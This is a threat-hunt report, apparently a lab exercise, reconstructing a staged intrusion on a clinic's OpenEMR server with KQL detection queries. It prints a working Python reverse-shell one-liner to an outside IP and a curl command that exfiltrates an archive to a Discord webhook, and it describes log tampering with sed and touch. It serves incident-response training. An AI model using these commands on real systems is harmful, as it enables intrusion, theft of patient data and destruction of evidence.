# Rocky Clinic — OpenEMR Breach: Threat Hunt Report
### LIVEHunt 07 | February 2026 | Confidential

---

## 1. Executive Summary

Rocky Clinic operates OpenEMR, a cloud-hosted electronic health record (EHR) platform. During February 2026, the environment sustained a deliberate, low-noise intrusion that evaded alerting, caused no service disruption, and left no ransomware. The attacker moved methodically through the estate: validating the host, escalating privilege, enumerating data, establishing persistence, exfiltrating a staged archive via a legitimate SaaS webhook, and then selectively erasing log evidence.

The investigation window covers **4 February 2026 – 14 February 2026 UTC**. This report reconstructs the full attack chain across 29 flagged investigation points spanning initial access, discovery, privilege escalation, persistence, command-and-control, exfiltration, and defense evasion.

---

## 2. Environment Overview

| Attribute | Value |
|---|---|
| **Organisation** | Rocky Clinic |
| **Platform** | OpenEMR (Electronic Health Record) |
| **Cloud Provider** | Microsoft Azure |
| **Host (FQDN)** | `rocky83.zi5bvzlx0idetcyt0okhu05hda.cx.internal.cloudapp.net` |
| **OS Distribution** | Rocky Linux |
| **Container Runtime** | Docker |
| **Primary Account Abused** | `it.admin` |
| **Unauthorised Account Created** | `system` |
| **Investigation Window** | 2026-02-04 00:00 UTC – 2026-02-14 23:59 UTC |

---

## 3. Attack Timeline

| Date/Time (UTC) | Event |
|---|---|
| 2026-02-05 00:16 | First successful SSH logon to `rocky83` from external IP `68.53.47.150` |
| 2026-02-07 00:24 | Operator escalates to root via `sudo -i` |
| 2026-02-07 01:52 | Trusted backup script targeted for staging abuse |
| 2026-02-08 16:25 | Suspicious session begins under `it.admin` from `37.19.221.234` |
| 2026-02-08 16:25 | First discovery command — who is logged in (`w`) — executed (PID 17507) |
| 2026-02-08 16:35 | Session closes with `docker ps` (last interactive command) |
| 2026-02-08 16:39 | New session from `149.40.62.16` begins |
| 2026-02-08 16:42 | OS fingerprinting — 4 `/etc` release files read in a single command |
| 2026-02-09 15:53 | Root reads `/etc/openemr/audit_export.env` (secrets / automation config) |
| 2026-02-09 17:03 | Docker DB container inspected; physical DB path confirmed |
| 2026-02-10 06:37 | Recursive enumeration of Docker volume storage |
| 2026-02-10 17:07 | Systemd service `integration-monitor.service` created via `cat` |
| 2026-02-10 22:00 | Staging archive created: `integration_state_2026-02-10_22-00-01.tar.gz` |
| 2026-02-11 04:16 | C2 service file (SHA256: `f71ea8…`) activated; Python reverse shell launched |
| 2026-02-11 04:18 | Interactive reverse shell session spawned (PID 8000) |
| 2026-02-11 04:22 | SCP/SFTP exfil attempt to `20.62.27.80` — **fails** |
| 2026-02-11 16:13–16:16 | 12 selective `sed -i` delete operations across `/var/log/secure` and `/var/log/messages` |
| 2026-02-11 16:16 | `/var/log/messages` backdated to `2026-02-06 12:00:00` via `touch` |
| 2026-02-13 20:10 | Successful exfiltration via Discord webhook (curl) |

---

## 4. Investigation

---

### 4.1 — Initial Asset Anchor: Fully Qualified Device Name

**Finding:**
The OpenEMR environment is hosted on an Azure VM identified by the FQDN `rocky83.zi5bvzlx0idetcyt0okhu05hda.cx.internal.cloudapp.net`. The first successful external SSH logon occurred at `2026-02-05 00:16:40 UTC` from remote IP `68.53.47.150`, under the account domain `rocky83` and local user `r0ckyyy335`.

**KQL:**
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| project TimeGenerated, DeviceName, AccountDomain, Protocol, RemoteIP,
          RemoteDeviceName, RemotePort, AdditionalFields, ActionType
| where AccountDomain has_any ("open","rocky83","emr")
| where ActionType contains "success"
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `rocky83.zi5bvzlx0idetcyt0okhu05hda.cx.internal.cloudapp.net`
Pivoted on account domain values containing `rocky83` or `emr`. The `AdditionalFields` column confirmed SSH terminal, local user `r0ckyyy335`, and primary group membership. First timestamp anchors the start of attacker activity.

---

### 4.2 — Hosting Model Confirmation: Container Runtime

**Finding:**
The OpenEMR application runs inside **Docker** containers on `rocky83`. This was confirmed by filtering `InitiatingProcessCommandLine` for the string `docker` within the authenticated session context.

**KQL:**
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| project TimeGenerated, DeviceName, AccountDomain, Protocol, RemoteIP,
          RemoteDeviceName, RemotePort, AdditionalFields, ActionType,
          InitiatingProcessCommandLine
| where AccountDomain has_any ("open","rocky83","emr")
| where ActionType contains "success"
| where InitiatingProcessCommandLine contains "docker"
| sort by TimeGenerated asc
```

**Screenshot:**

**Analyst Notes:**
Answer: `docker`
Confirmed at `2026-02-05 03:40:47 UTC`. Docker is the abstraction layer between the Azure VM and the OpenEMR application code.

---

### 4.3 — First Behavioural Tell: Discovery Command PID

**Finding:**
A suspicious remote logon from external IP `37.19.221.234` initiated a new operator session under `it.admin` at `2026-02-08 16:25:00 UTC`. The first command run in that session checked who else was logged into the system. The process ID of that event is **17507**.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-08T16:25:00Z) .. datetime(2026-02-10))
| where AccountName in ("it.admin","r0ckyyy335","it.admin")
| where ProcessCommandLine has_any ("w", "who", "whoami", "loginctl")
| project TimeGenerated, ProcessCommandLine, ProcessId, InitiatingProcessId,
          InitiatingProcessCommandLine, AccountName, AdditionalFields
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `17507`
Session anchored to external IP `37.19.221.234` (non-routine). Cross-correlated `DeviceLogonEvents` timestamps with `DeviceProcessEvents` to isolate the suspicious session from normal internal admin activity. Timestamp: `2026-02-08 16:25:30 UTC`.

---

### 4.4 — Session Boundary Fingerprint: Last Command SHA256

**Finding:**
Before the session at `37.19.221.234` closed, the operator ran `docker ps` as the final interactive command. The SHA256 of the binary behind that command is `a7b78ff3f501951cd8455697ef1b6dc1832ae42a9433926a8504d6ad719d729d`.

**KQL:**
```kql
let time_window = datetime(2026-02-08T16:25:00.555165Z);
DeviceProcessEvents
| where TimeGenerated between (time_window .. (time_window + 15m))
| where AccountName in ("it.admin")
| project TimeGenerated, ProcessCommandLine, ProcessId, InitiatingProcessId,
          InitiatingProcessCommandLine, SHA256, InitiatingProcessSHA256
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `a7b78ff3f501951cd8455697ef1b6dc1832ae42a9433926a8504d6ad719d729d`
Command: `sudo docker ps` at `2026-02-08 16:35:08 UTC`. This is the last interactive operator action before the next session from `149.40.62.16` begins at `16:39`. The SHA256 corresponds to the `docker` binary called via `sudo`.

---

### 4.5 — Account Name Attribution

**Finding:**
The account name behind the anomalous remote sessions into `rocky83` is **`it.admin`**.

**KQL:**
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| project TimeGenerated, DeviceName, AccountName, Protocol, RemoteIP,
          RemoteDeviceName, ActionType, InitiatingProcessId, InitiatingProcessParentId
| where DeviceName has_any ("rocky83")
| where ActionType contains "success"
| where isnotempty(RemoteIP)
| sort by TimeGenerated asc
| distinct AccountName
```

**Screenshot:**



**Analyst Notes:**
Answer: `it.admin`
Filtering for non-empty `RemoteIP` removes local/internal process-initiated logons and surfaces only network-sourced sessions. All suspicious external sessions are attributed to `it.admin`.

---

### 4.6 — Environment Confirmation: /etc Release File Count

**Finding:**
During the first suspicious session, the operator fingerprinted the host OS by reading **4** distinct release files under `/etc` in a single command: `/etc/os-release`, `/etc/redhat-release`, `/etc/rocky-release`, and `/etc/system-release`.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where AccountName in ("it.admin")
| where ProcessCommandLine has "/etc/" and ProcessCommandLine has "release"
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `4`
Full command: `cat /etc/os-release /etc/redhat-release /etc/rocky-release /etc/system-release`
Timestamp: `2026-02-08 16:42:50 UTC`. This is a standard Linux OS fingerprinting one-liner used to confirm distribution and version before deploying further tooling.

---

### 4.7 — Platform Reality Check: OS Distribution

**Finding:**
The EDR records the operating system distribution of `rocky83` as **Rocky Linux**.

**KQL:**
```kql
DeviceInfo
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where DeviceName contains "rocky83"
| project TimeGenerated, OSDistribution, DeviceName, OSVersion
```

**Screenshot:**


**Analyst Notes:**
Answer: `RockyLinux`
Retrieved directly from the `DeviceInfo` table `OSDistribution` field. Rocky Linux is a community enterprise distribution, a downstream rebuild of RHEL — consistent with the `/etc/rocky-release` file read in 4.6.

---

### 4.8 — Crossing the Trust Line: Privilege Escalation Command

**Finding:**
The attacker transitioned from a constrained admin shell into a fully privileged interactive root shell using the command **`sudo -i`**.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where AccountName in ("it.admin")
| where ProcessCommandLine has_any ("sudo -i")
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `sudo -i`
Timestamp: `2026-02-07 00:24:43 UTC`. `sudo -i` launches an interactive login shell as root, inheriting root's environment. This is the privilege escalation boundary event — all subsequent high-privilege activity flows from this action.

---

### 4.9 — Runtime Layer Interrogation: Docker DB Container Command

**Finding:**
Immediately after escalating to root, the operator interrogated the database container to confirm control over the application's execution layer. The command was **`docker inspect openemr-mariadb`**.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where DeviceName in ("rocky83")
| where ProcessCommandLine has_any ("docker inspect")
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine, AccountName
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `docker inspect openemr-mariadb`
Timestamp: `2026-02-09 17:03:14 UTC`. `docker inspect` returns detailed JSON metadata for a container, including volume mounts, network settings, and environment variables — giving the attacker a complete map of the database container configuration.

---

### 4.10 — The Single File That Explains Everything: Automation Config Read

**Finding:**
The attacker read the privileged automation configuration file `/etc/openemr/audit_export.env` using the command **`sudo sed -n 1,200p /etc/openemr/audit_export.env`**.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where DeviceName in ("rocky83")
| where AccountName contains "root"
| where ProcessCommandLine has_all ("sed", "/etc/openemr")
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine, AccountName
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `sudo sed -n 1,200p /etc/openemr/audit_export.env`
Timestamp: `2026-02-09 15:53:18 UTC`. `.env` files typically contain credentials, API keys, and service configuration — values that survive reboots and grant repeatable programmatic access. This is a high-value pivot point in the intrusion.

---

### 4.11 — Physical Mapping Confirmation: Docker Volume Enumeration

**Finding:**
The attacker recursively enumerated files inside Docker volume storage to map where persistent data physically lives on disk. The command was **`find /var/lib/docker/volumes -maxdepth 3 -type f`**.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where AccountName in ("root")
| where ProcessCommandLine has "find /var/lib/docker/volumes"
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine, ProcessId
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `find /var/lib/docker/volumes -maxdepth 3 -type f`
Timestamp: `2026-02-10 06:37:30 UTC`. The `-maxdepth 3` flag limits depth to reduce noise while still revealing file layout under named volumes. This confirms the attacker understood Docker volume naming conventions.

---

### 4.12 — Where the Data Actually Lives: Persistent DB Storage Path

**Finding:**
The attacker identified the host filesystem path for the persistent MariaDB database storage as **`/var/lib/docker/volumes/r0ckyyy335_mariadb_data/_data`**.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where DeviceName in ("rocky83")
| where ProcessCommandLine has "/var/lib/docker/volumes"
| where ProcessCommandLine has_any ("mariadb", "mysql", "db")
| project TimeGenerated, FolderPath, ProcessCommandLine, InitiatingProcessCommandLine, ProcessId
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `/var/lib/docker/volumes/r0ckyyy335_mariadb_data/_data`
Timestamp: `2026-02-09 17:03:14 UTC`. The volume name prefix `r0ckyyy335` matches the primary local user account, confirming the Docker Compose project was deployed under that user. This path gives direct, container-bypassing access to raw database files.

---

### 4.13 — Hijacking a Trusted Repeating Path: Target Script

**Finding:**
The attacker targeted the operational backup script **`/opt/backup/scripts/backup_manifest.sh`** as a trusted, repeating execution path for staging abuse.

**KQL:**
```kql
DeviceFileEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where DeviceName in ("rocky83")
| where FolderPath has_any ("/opt/", "/usr/local/", "openemr")
| where FileName endswith ".sh"
| project TimeGenerated, ActionType, DeviceName, FileName, FolderPath
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `/opt/backup/scripts/backup_manifest.sh`
Timestamp: `2026-02-07 01:52:21 UTC`. Scripts under `/opt` that run on a schedule (cron) are ideal abuse targets: they run as root, are rarely monitored, and blend with routine maintenance. The attacker likely reviewed this script as a vehicle for embedding staging commands.

---

### 4.14 — Staging Where Nobody Looks First: Staging Directory

**Finding:**
When the backup script path proved inconvenient, the attacker staged data in **`/var/lib/integrations/`**, a directory that resembles legitimate operational infrastructure.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where AccountName in ("root")
| where DeviceName contains "rocky"
| where ProcessCommandLine has_any ("tar","zip","7z","rar","xz","gzip")
| where InitiatingProcessCommandLine has_any ("cron","crond")
| project TimeGenerated, DeviceName, AccountName, FileName, FolderPath,
          ProcessCommandLine, InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `/var/lib/integrations/`
Timestamp: `2026-02-10 22:00:00 UTC`. The directory name mimics application integration middleware — a plausible location that would not raise immediate flags in file system reviews. The archive was created by a cron-triggered process running as root.

---

### 4.15 — Quiet Persistence Obfuscation: Unauthorised Account

**Finding:**
The attacker created an unauthorised local account named **`system`** to establish identity-based persistence that blends into environment assumptions.

**KQL:**
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| project TimeGenerated, DeviceName, AccountName, Protocol, RemoteIP,
          RemoteDeviceName, ActionType, InitiatingProcessId, InitiatingProcessParentId
| where DeviceName has_any ("rocky83")
| where AccountName contains "system"
| where isnotempty(RemoteIP)
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `system`
The account name `system` is chosen deliberately to appear as a legitimate service account. Analysts reviewing account lists may overlook it as a built-in. This is a classic LOLBIN-adjacent identity persistence technique.

---

### 4.16 — Identity Creation Without the Obvious Footprints: Binary SHA256

**Finding:**
The attacker avoided standard account management tools (`useradd`, `adduser`) and instead directly edited `/etc/passwd` or `/etc/shadow` using `vipw`. The SHA256 of the binary used is **`dbb794466563134e5119efa47fd41c4ffb31a8104b59bba11eb630f55238abd0`**.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where AccountName in ("root")
| where DeviceName contains "rocky"
| where ProcessCommandLine has_any ("/etc/passwd","/etc/shadow","etc/group")
| where InitiatingProcessCommandLine has_any ("vim","vipw")
| project TimeGenerated, DeviceName, AccountName, FileName, FolderPath,
          ProcessCommandLine, InitiatingProcessCommandLine, SHA256, InitiatingProcessSHA256
| sort by TimeGenerated asc
```

**Screenshot:**


**Analyst Notes:**
Answer: `dbb794466563134e5119efa47fd41c4ffb31a8104b59bba11eb630f55238abd0` (InitiatingProcessSHA256)
Using `vipw` (or `vim` on password files) bypasses audit hooks that many EDRs and SIEMs attach to `useradd`/`usermod`. Editing the underlying flat files directly is a deliberate evasion of account-creation detections.

---

### 4.17 — Secondary Non-Interactive Persistence: Systemd Service

**Finding:**
The attacker created a lightweight systemd service definition **`integration-monitor.service`** under `/etc/systemd/system/` to establish host-level persistence that fires without interactive logon.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where AccountName in ("root")
| where DeviceName contains "rocky"
| where ProcessCommandLine has_any ("/etc/systemd/system/")
| project TimeGenerated, DeviceName, AccountName, FileName, FolderPath,
          ProcessCommandLine, InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `integration-monitor.service`
Timestamp: `2026-02-10 17:07:22 UTC`. Systemd services survive reboots, run as any user (here: root), and can be configured to restart on failure. The name `integration-monitor` is chosen to blend with legitimate monitoring services.

---

### 4.18 — No Editor File Creation: Binary Used

**Finding:**
The attacker created the systemd service file using **`cat`** — a simple binary that leaves minimal editor telemetry compared to `vim`, `nano`, or similar interactive editors.

**KQL:**
```kql
DeviceFileEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where DeviceName in ("rocky83")
| where InitiatingProcessCommandLine has_any ("tee","cat","echo")
| where FileName contains "integration-monitor.service"
| project TimeGenerated, ActionType, DeviceName, FileName, FolderPath,
          InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `cat`
Using `cat > /etc/systemd/system/integration-monitor.service << EOF` (heredoc) writes the file in a single process invocation with no editor process spawned. This avoids swap files, editor history, and the distinctive process trees that `vim`/`nano` create.

---

### 4.19 — Pre-Activation Integrity Check: C2 Service File SHA256

**Finding:**
Before activating the outbound C2 connection, the attacker modified the service file. The SHA256 of the version of `integration-monitor.service` used to launch the C2 connection is **`f71ea834a9be9fb0e90c7b496e5312072fffedf1d1c0377957e05714bdac37b8`**.

**KQL:**
```kql
DeviceFileEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| where DeviceName has "rocky83"
| where FileName == "integration-monitor.service"
| project TimeGenerated, FileName, ActionType, SHA256, InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `f71ea834a9be9fb0e90c7b496e5312072fffedf1d1c0377957e05714bdac37b8`
Timestamp: `2026-02-11 04:16:01 UTC`. The service file has multiple SHA256 values across its lifecycle (creation, modification). The final version — matched to the activation moment — is the one tied to the C2 launch. The service health-checked the C2 endpoint with `wget --spider https://104.209.148.246:443` before executing the shell.

---

### 4.20 — C2 Establishment: Reverse Shell Command Line

**Finding:**
A Python one-liner established an interactive reverse shell to an external host. The full command was:

```
/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("20.62.27.80",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| where DeviceName has "rocky83"
| where ProcessCommandLine has_any ("python", "python3")
| where ProcessCommandLine has_any ("socket", "subprocess", "pty", "os.dup")
| project TimeGenerated, ProcessCommandLine, SHA256, AccountName, ProcessId,
          InitiatingProcessParentId
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("20.62.27.80",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'`
C2 IP: `20.62.27.80` on port `443`. Uses `os.dup2` to redirect stdin/stdout/stderr to the socket, then calls `/bin/sh -i`. Port 443 is chosen to blend with legitimate HTTPS traffic and bypass egress filtering.

---

### 4.21 — Reverse Shell Process Identification: Interactive Shell PID

**Finding:**
The reverse shell spawned an interactive `/bin/sh` session on the host. The process ID of that interactive session is **8000**.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-11T04:16:00Z) .. datetime(2026-02-11T04:20:00Z))
| where DeviceName has "rocky83"
| where ProcessCommandLine has_any ("/bin/sh", "/bin/bash", "sh -i", "bash -i")
| project TimeGenerated, ProcessCommandLine, ProcessId, InitiatingProcessId,
          InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `8000`
Timestamp: `2026-02-11 04:18:21 UTC`. The reverse shell process (`python3`) is the parent; PID 8000 is the child `/bin/sh -i` it spawned. This is the interactive session where the attacker typed commands post-C2 establishment.

---

### 4.22 — Staged Archive Identification: Filename

**Finding:**
Before transferring data, the attacker created a compressed archive for exfiltration. The filename is **`integration_state_2026-02-10_22-00-01.tar.gz`**.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. (datetime(2026-02-04) + 10d))
| where AccountName in ("root")
| where DeviceName has "rocky83"
| where ProcessCommandLine has_any ("tar","zip","7z","rar","xz","gzip")
| where ProcessCommandLine has_any ("integration_state")
| project TimeGenerated, DeviceName, FolderPath, ProcessCommandLine,
          InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `integration_state_2026-02-10_22-00-01.tar.gz`
Timestamp: `2026-02-10 22:00:00 UTC`. The filename format mirrors what a legitimate cron-driven backup or integration-state export might produce, consistent with the `integration-monitor` service naming theme used throughout this intrusion.

---

### 4.23 — First Exfiltration Attempt: Failed Transfer Command

**Finding:**
The operator's first structured exfiltration attempt used SFTP/SCP to `20.62.27.80`, but network controls blocked it. The initiating process command line tied to the failed transfer was:

```
/usr/bin/ssh -x -oPermitLocalCommand=no -oClearAllForwardings=yes -oRemoteCommand=none -oRequestTTY=no -oForwardAgent=no -l streetrack -s -- 20.62.27.80 sftp
```

**KQL:**
```kql
DeviceNetworkEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-14))
| where DeviceName has "rocky83"
| where ActionType == "ConnectionFailed"
| where InitiatingProcessParentFileName contains "scp"
| project TimeGenerated, RemoteIP, RemotePort, ActionType,
          InitiatingProcessCommandLine, InitiatingProcessId, InitiatingProcessParentId
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `/usr/bin/ssh -x -oPermitLocalCommand=no -oClearAllForwardings=yes -oRemoteCommand=none -oRequestTTY=no -oForwardAgent=no -l streetrack -s -- 20.62.27.80 sftp`
Timestamp: `2026-02-11 04:22:39 UTC`. The username `streetrack` is a likely attacker-controlled account on the C2 infrastructure. The connection failure forced a pivot to an alternative exfiltration channel.

---

### 4.24 — Successful Exfiltration Pivot: Exfil Command

**Finding:**
After the SFTP failure, the attacker pivoted to Discord's file upload API via webhook. The successful exfiltration command was:

```
curl -F file=@integration_state_2026-02-10_22-00-01.tar.gz https://discord.com/api/webhooks/1471960320636620832/he162lRQsMJ3kKOVBNeiHYutbubwZ0sC-vq7A_phLZx-q4VOS88q4xDOvhxrBqy6nu9K
```

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| where DeviceName has "rocky83"
| where ProcessCommandLine has "discord"
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `curl -F file=@integration_state_2026-02-10_22-00-01.tar.gz https://discord.com/api/webhooks/...`
Timestamp: `2026-02-13 20:10:51 UTC`. Discord webhooks are a known exfiltration technique — traffic appears as legitimate HTTPS to `discord.com`, bypassing domain-based egress controls. The webhook URL is the full exfil IOC.

---

### 4.25 — Exfiltration Destination: IP and Port

**Finding:**
The Discord webhook exfiltration connected to IP **`162.159.135.232`** on port **`443`**.

**KQL:**
```kql
DeviceNetworkEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| where DeviceName has "rocky83"
| where InitiatingProcessCommandLine has "discord"
| project TimeGenerated, RemoteIP, RemotePort, ActionType, InitiatingProcessCommandLine
| sort by TimeGenerated asc
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `162.159.135.232:443`
This IP belongs to Cloudflare's infrastructure, which Discord routes through. Traffic to this IP over port 443 is indistinguishable from standard web browsing without deep packet inspection or domain-level filtering on `discord.com`.

---

### 4.26 — Selective Log Erasure: sed -i Delete Operation Count

**Finding:**
Rather than wiping all logs, the attacker ran targeted `sed -i` delete operations to remove specific evidence. Across `/var/log/secure` and `/var/log/messages` combined, **12** distinct `sed -i` delete operations were executed between `2026-02-11 16:13` and `16:16 UTC`.

**KQL:**
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2026-02-04) .. datetime(2026-02-15))
| where DeviceName has "rocky83"
| where ProcessCommandLine has_any ("/var/log/secure","/var/log/messages")
      and ProcessCommandLine contains "sed -i"
| where ProcessCommandLine !contains "sudo"
| project TimeGenerated, ProcessCommandLine, InitiatingProcessCommandLine
| sort by TimeGenerated asc
| distinct ProcessCommandLine
```

**Screenshot:**
> 

**Analyst Notes:**
Answer: `12`
Selective deletion (vs. full log wipe) is a deliberate choice: complete erasure is more likely to trigger integrity monitoring alerts. The attacker targeted specific timestamps or patterns matching their activity, leaving surrounding log entries intact to appear normal.

---

### 4.27 — Log Manipulation Tool: Binary Name

**Finding:**
The attacker used **`sed`** to manipulate the log files, avoiding interactive text editors that would produce distinctive telemetry.

**KQL:**
